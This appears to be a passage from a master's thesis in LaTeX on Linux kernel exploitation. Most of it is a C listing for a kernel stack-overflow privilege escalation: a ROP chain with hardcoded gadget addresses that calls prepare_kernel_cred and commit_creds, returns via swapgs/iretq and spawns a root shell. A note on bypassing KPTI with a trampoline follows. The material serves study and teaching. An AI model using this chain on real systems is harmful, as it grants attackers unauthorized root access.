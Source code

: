 \documentclass{masterthesis}
\newcommand{\refToSubSection}[1]{Subsection~\ref{subsect:#1}\xspace}
\begin{document}
\begin{lstlisting}
void get_shell(void){
    puts("[*] Returned to userland");
    if (getuid() == 0){
        printf("[*] UID: %d, got root!\n", getuid());
        system("/bin/sh");
    } else {
        printf("[!] UID: %d, did not get root\n", getuid());
        exit(-1);
    }
}
unsigned long user_rip = (unsigned long)get_shell;

unsigned long pop_rdi_ret = 0xffffffff81006370;
unsigned long pop_rdx_ret = 0xffffffff81007616; // pop rdx ; ret
unsigned long cmp_rdx_jne_pop2_ret = 0xffffffff81964cc4; // cmp rdx, 8 ; jne 0xffffffff81964cbb ; pop rbx ; pop rbp ; ret
unsigned long mov_rdi_rax_jne_pop2_ret = 0xffffffff8166fea3; // mov rdi, rax ; jne 0xffffffff8166fe7a ; pop rbx ; pop rbp ; ret
unsigned long commit_creds = 0xffffffff814c6410;
unsigned long prepare_kernel_cred = 0xffffffff814c67f0;
unsigned long swapgs_pop1_ret = 0xffffffff8100a55f; // swapgs ; pop rbp ; ret
unsigned long iretq = 0xffffffff8100c0d9;

void overflow(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; // rbx
    payload[off++] = 0x0; // r12
    payload[off++] = 0x0; // rbp
    payload[off++] = pop_rdi_ret; // return address
    payload[off++] = 0x0; // rdi <- 0
    payload[off++] = prepare_kernel_cred; // prepare_kernel_cred(0)
    payload[off++] = pop_rdx_ret;
    payload[off++] = 0x8; // rdx <- 8
    payload[off++] = cmp_rdx_jne_pop2_ret; // make sure JNE does not branch
    payload[off++] = 0x0; // dummy rbx
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = mov_rdi_rax_jne_pop2_ret; // rdi <- rax
    payload[off++] = 0x0; // dummy rbx
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = commit_creds; // commit_creds(prepare_kernel_cred(0))
    payload[off++] = swapgs_pop1_ret; // swapgs
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = iretq; // iretq frame
    payload[off++] = user_rip;
    .....
}

\end{lstlisting}
\section{Adding KPTI}
\label{sect:trampoline}
As mentioned in \refToSubSection{KPTI} the user-space and kernel-space page tables are separate. In fact, in user mode, a page set includes user-space page tables and only a few kernel-space addresses.
There are several ways to bypass this mitigation, but the one we are going to look at is called a \emph{trampoline}.
Logically if a system call returns normally there must be a piece of code in the kernel that swaps the page tables to the userland, so we will try to reuse that code for our purpose.
This piece of code is called a trampoline and swaps the page tables, swapgs, and iretq.
\end{document}
